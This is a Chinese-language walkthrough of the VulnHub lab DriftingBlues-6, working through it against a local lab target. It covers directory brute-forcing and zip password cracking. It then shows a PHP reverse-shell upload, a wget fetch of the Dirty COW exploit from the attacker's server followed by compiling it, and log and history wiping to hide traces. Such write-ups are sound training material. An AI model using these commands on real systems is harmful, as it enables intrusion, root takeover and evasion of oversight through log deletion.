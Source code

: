 # 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.63`，因为重装靶机后期为`192.168.1.64`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\1.jpg)

# 信息收集

## 使用nmap扫描端口

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\2.jpg)



## 网站探测

访问80端口，并查看页面源代码，发现有些信息，图片为`db.png`，还有一段话

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\3.jpg)

下载图片，测试有无隐藏信息

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\4.jpg)

![4-1](D:\stu\vulnhub\DriftingBlues靶场\pic-6\4-1.jpg)

访问这一段话中的地址，发现这是一个虚拟靶场的集合，并无其他信息，可能是一个暗广

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\5.jpg)

那么根据图片链接地址，猜测可能是目录型网站

使用`gobuster、dirsearch、ffuf、dirb、dirbuster`等工具进行扫描目录

```shell
gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404,403 -d
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\6.jpg)

访问`db`发现就是图片地址，访问`robots`和`robots.txt`，都是一样的内容，给了一个目录，还细心的提示，在目录爆破时别忘了加上`zip`后缀名

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\7.jpg)

先访问这个目录测试`/textpattern/textpattern`，发现是一个登录界面

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\8.jpg)

其上级目录`/textpattern`类似于一个博客

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\9.jpg)

使用`whatweb`进行指纹识别，确定了CMS为`textpattern`，以及脚本语言为`php`等

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\10.jpg)

使用`gobuster`再次进行扫描，这里换个字典，猜测可能是字典的原因，因为上面也加上了`zip`后缀，这里只对`zip`后缀进行爆破，一层目录开始，然后往下深入，为什么使用`gobuster`，因为这里确实会把后缀加上，可以直观的看到有无`zip`文件，并且速度很快。当然也可以使用`dirb`这个也是好用的

```shell
#使用gobuster
gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x zip -b 404,403 -t 200 

#使用dirb，这里的顺序很重要
dirb http://192.168.1.63 /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -X .zip 
```



![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\11.jpg)

使用浏览器访问后下载到`kali`，不过解压需要密码，可以使用`fcrackzip`或者使用`john`套件中的`zip2john`转换，然后使用`john`破解，最终解出密码，查看解压文件，发现是认证的身份信息

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\12.jpg)

登录成功后，随便点击功能测试，发现CMS的版本

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\13.jpg)

我这里不知道什么原因，在进行功能点测试时，一直在加载，很是缓慢，尝试重启靶机，无效，重装靶机

这时靶机`ip`改变为`192.168.1.64`

发现`files`可以上传文件，把`kali`中的`php`脚本上传

```shell
/usr/usr/share/webshells/php/php-reverse-shell.php
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\14.jpg)

只需要修改脚本中的一处或两处，`ip`为kali的地址

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\15.jpg)

> 上传后的脚本地址在`textpattern`目录下，这里因为之前扫描过，知道位置，只是没有把截图放上去，建议扫描的时候，可以先使用`dirsearch`或者`dirb`把目录先走一遍

在`kali`使用`nc`监听端口`1234`后，使用浏览器访问脚本地址

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\16.jpg)

反弹shell后，使用`dpkg`查看有无`python`可用

```shell
dpkg -l | grep python
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\17.jpg)

使用`python`获取交互式界面

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

使用`find`寻找具有SUID文件和`capabilites`，并无可用信息

```shell
find / -perm -u=s -type f 2>/dev/null
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\18.jpg)

查看信息内核版本信息以及定时任务

```shell
uname -a
cat /etc/crontab
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\19.jpg)

查看网络状态信息

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\20.jpg)

使用`searchsploit`搜索内核漏洞，发现在脏牛漏洞的范围内，尝试使用脏牛进行提取

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\21.jpg)

测试发现`40839`可以利用，在`kali`中开启`python`一个简易的网站服务，然后靶机通过`wget`把文件下载到本地，注意，在靶机上进行编译处理

```shell
#kali
python3 -m http.server 8888

#靶机
wget http://192.168.1.16:8888/40839.c
gcc -pthread 40839.c -o exp -lcrypt   //这个用法在40839.c中有提示
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\22.jpg)

执行`exp`，设置密码，不过这里就会回弹失败，没有关系，通过浏览器重新访问监听获取shell

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\23.jpg)

再次获取shell，然后切换到脚本中提示的默认`firefart`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\24.jpg)

![](D:\stu\vulnhub\DriftingBlues靶场\pic-6\25.jpg)



# 痕迹清理

这里就只说一下

首先把脚本删除掉，在`/tmp`中的C语言文件以及编译的`exp`

把网站中的反弹`php`脚本删除

把`/var/log`中的各种日志清理，涉及到`kali`中的地址，都可以清除，或使用`sed`针对清理

把命令历史记录清理

# 总结

1. 考察目录扫描以及压缩包的解密
2. 考察文件上传的反弹shell
3. 考察linux系统内科提取，这里是脏牛提取



































